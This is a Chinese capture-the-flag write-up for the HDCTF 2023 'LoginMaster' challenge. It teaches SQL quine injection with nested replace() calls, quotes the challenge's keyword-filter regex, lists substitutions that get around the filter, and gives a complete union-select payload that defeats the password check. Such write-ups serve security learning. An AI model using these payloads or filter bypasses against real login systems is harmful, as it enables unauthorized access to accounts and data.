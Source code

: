 

# [HDCTF 2023]LoginMaster 复现

## 知识点

>   **SQL的Uquine注入，需要让输入和输出的结果一样**

## 怎么让输入输出一样

**使用quine注入，简单来说这是一种使得输入的sql语句和输出的sql语句一致的方法**



**首先先了解一下replace()函数**

-   `replace(object,search,replace)`
-   把`object`对象中出现的的`search`全部替换成`replace`
-   **案例**

```sql
# object  = .
# search  = char(46)
# replace = .
select replace(".",char(46),".");# char(46)就是【.】
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+

# 将object写成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = .
select replace('replace(".",char(46),".")',char(46),'.');
+---------------------------+
| replace(.....) 			|
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+

# 这时候我们将第三个参数也改成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = replace(".",char(46),".")
select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');
+---------------------------------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")') |
+---------------------------------------------------------------------------+
| replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")") |
+---------------------------------------------------------------------------+
# 这时可以发现输出的值和我们查询的东西快变成一样的了，唯一存在的不足就是【单双号的不同】
# 原来：replace(".",char(46),".") 变成了：replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")")
```

**解决单双引号不同的问题**



```sql
# char(34) = "      	char(39) = '
# object  = replace('"."',char(34),char(39)) == 【'.'】
# search  = char(46)
# replace = .
select replace(replace('"."',char(34),char(39)),char(46),".");# 先执行内层replace
+--------------------------------------------------------+
| replace(replace('"."',char(34),char(39)),char(46),".") |
+--------------------------------------------------------+
| '.'                                                    |
+--------------------------------------------------------+
# 这样就可以将我们的双引号替换成单引号，此时我们继续沿用上面的思路，构造输入输出相同的语句


# object  = replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)
# search  = char(46)
# replace = replace(replace(".",char(34),char(39)),char(46),".")
select replace
	(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),
     char(46), 
     'replace(replace(".",char(34),char(39)),char(46),".")' );
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+  
     
```

**Quine基本形式**

```sql
select replace(replace('str',char(34),char(39)),char(46),'str');
# 这样去查询就会的得到str字符串本身，不过就是咋这里要多一步，先将str里的双引号替换成单引号，再用str替换str里的.
```

**注入的Quine基本形式**

```sql
1'/**/union/**/select/**/replace(replace('',char(34),char(39)),char(46),'') #
# 这样去查询就会得到一个空的结果
'
select replace(replace('"."',char(34),char(39)),char(46),".");
# 这条语句用来把双引号替换为单引号
```



## 解题

-   打开题目发现主页是一个登录框，并且登录成功就给flag
-   首先寻找一下有没有提示，看源代码和访问`robots.txt、www.zip`，在`robots.txt`中发现如下代码

```java
function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

>   以上可以得知sql存在过滤，而且拿flag条件是password要等于查询出来的password

>   然后传入万能密码进行测试`1' or 1=1#`，`username、password`都输入这玩意
>
>   点击登录会弹框：`only admin can login`，用户名只能是admin，那么注入点位置就只能是在password这里
>
>   那么可以根据上面的代码的可以发现，那些过滤都是针对password的，

>   虽然过滤了很多，但一些替代关键字没有被过滤
>
>   ```nginx
>   sleep 		可以用benchmark代替
>   <,> 		可以用least(),greatest()代替
>   =,in 		可以用like代替
>   substr 		可以用mid代替
>   空格 		   可以用/**/代替
>   ```
>

>   然后就是还要绕过：`if ($row['password'] === $password) {}`，但是这张表其实是一张空表
>
>   所以只能通过让输入输出一致，达到绕过的目的
>
>   根据以上的分析就给得到playload为：

```sql
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```

**最终达到输入输出完全一致**





参考：

https://www.cnblogs.com/zhengna/p/15917521.html